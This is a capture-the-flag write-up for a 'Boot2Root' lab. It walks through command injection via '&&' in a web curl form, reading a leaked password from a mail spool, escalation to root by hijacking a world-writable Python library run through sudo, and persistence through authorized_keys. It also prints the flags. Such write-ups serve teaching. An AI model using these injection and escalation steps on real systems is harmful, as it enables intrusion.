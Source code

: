 # Boot2Root

This was a series of privilege escalation challenges. A webpage was provided which allowed a user to `curl` any webpage.

## Boot2Root - Editorial Work - Baby
A simple case of remote code execution, by passing in a `&&` into the input.

> 192.168.125.100:9002 && cat baby.txt

```
ICTF{1_r34lly_sh0uld_s4anitize_the_p4r4ms}
```

## Boot2Root - Editorial Work - User
This is more involved, since we have to escalate our permissions to another user. To solve this, we looked at `/var/spool/mail/reset`, which is a file readable by us.

```
192.168.125.100:9002 && cat /var/spool/mail/reset
```
> Dear user,
>
> I am happy to let you know that we managed to reset your password. 
>
> Please try to not forget it again, as I had to remember my own password for the administrator account, which was a pain.
>
> As a senior member of the security team here, I would suggest that you change your password immediately to something more secure. If you are having trouble remembering your password, please write it down on a piece of paper and stick it to your machine for easy access. Your password is 'imperial123' Do not forget to change it.
> 
> Best, iamrootuser

Like this, we could ssh into the server with user's credentials.
```
ICTF{c0mm4nd_3x3cut10n_15_4ll_y0u_n33d}
```

## Boot2Root - Editorial Work - Root
To escalate to root, we ran `sudo -l` to look at which commands we could run as root.
```bash
$ sudo -l
User user may run the following commands on d2be86246ce6:
    (root) NOPASSWD: /usr/bin/python3.6 /home/flask-py/enumerator.py
```

By running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), we also found that the `/usr/lib/python3.6/webbrowser.py` file is writable by anyone. A similar challenge can be found [here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8). By editing the `webbrowser.py` file, we could hijack the libraries `enumerator.py` loads, allowing us to execute any arbitary code.

```bash
$ nano /usr/lib/python3.6/webbrowser.py
$ sudo /usr/bin/python3.6 /home/flask-py/enumerator.py
$ curl http://172.30.0.4:5090/
```

```
ICTF{m4d_l1bs_1s_much_b3tt3r_1n_python}
```

## Misc Notes

When solving this challenge, we were really stuck at the user and root level. To get to the user level, we generated a private/public keypair locally, then added it to the `~/.ssh/authorized_keys` file for the initial user, `flask-py`. We could then ssh in and run `linpeas` which is a script that highlights potential privilege escalation routes.